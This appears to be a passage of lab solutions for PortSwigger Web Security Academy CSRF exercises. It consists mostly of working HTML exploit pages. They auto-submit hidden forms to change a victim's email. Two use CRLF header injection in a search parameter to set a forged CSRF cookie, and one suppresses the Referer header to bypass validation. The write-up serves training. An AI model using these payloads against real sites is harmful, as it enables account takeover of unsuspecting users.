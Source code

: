 Solution: 

Body:

```
<html>
    <body>
        <form action="https://0afd004f03ed58b4c08e4ecf0071007f.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WFAIwA7t2UCsxkvc6lbdE33u4SufId4W" />
        </form>
        <img src="https://0afd004f03ed58b4c08e4ecf0071007f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=hTwHGgFkxPz5EgyuAVTKOPF83TN1ZW9Q" onerror="document.forms[0].submit()">
    </body>
</html>
```

### Lab: CSRF token is simply duplicated in a cookie

Solution: Basically same as previous lab, just set the csrf cookie using the `/?search` api and ensure that the csrf cookie and the csrf token value is the same

Body:

```
<html>
    <body>
        <form action="https://0a8100df03a8bd39c1846a7e0080009c.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="oJ09VIAG79KGrsVJqRKwyf2Q5nEwGG43" />
        </form>
        <img src="https://0a8100df03a8bd39c1846a7e0080009c.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=oJ09VIAG79KGrsVJqRKwyf2Q5nEwGG43" onerror="document.forms[0].submit()">
    </body>
</html>
```

### Lab: CSRF where Referer validation depends on header being present

Solution: add `<meta name="referrer" content="no-referrer">` in HTML

Body:

```
<html>
    <meta name="referrer" content="never">
    <meta name="referrer" content="no-referrer">
    <body>
        <form action="https://0a530020045b2863c0417236007600ef.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

